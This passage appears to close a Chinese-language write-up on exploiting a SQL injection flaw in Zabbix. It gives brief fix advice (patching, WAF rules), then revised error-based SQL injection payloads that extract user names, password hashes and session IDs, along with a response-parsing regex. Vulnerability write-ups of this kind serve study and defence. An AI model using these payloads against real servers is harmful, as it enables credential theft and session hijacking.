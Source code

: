   ![image](../image/zabbix_mysql.png)
  登录后如；
  ![image](../image/zabbix_logSU.png)
至此漏洞应用成功



### 修复建议

升级版本补丁

在WAF上过滤相关命令，建立对应安全规则


### 三、后续出现问题
在经过后面进行重复使用时发现之前的代码失效了，需要进行总是查询，经过重新进行注入sql调整，重新可以使用，对sql修改为如下：  
```
passwd_sql = "(select concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x limit 0,1)"
session_sql = "(select concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x limit 0,1)"
```  
方法中的正则修改为：        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")  
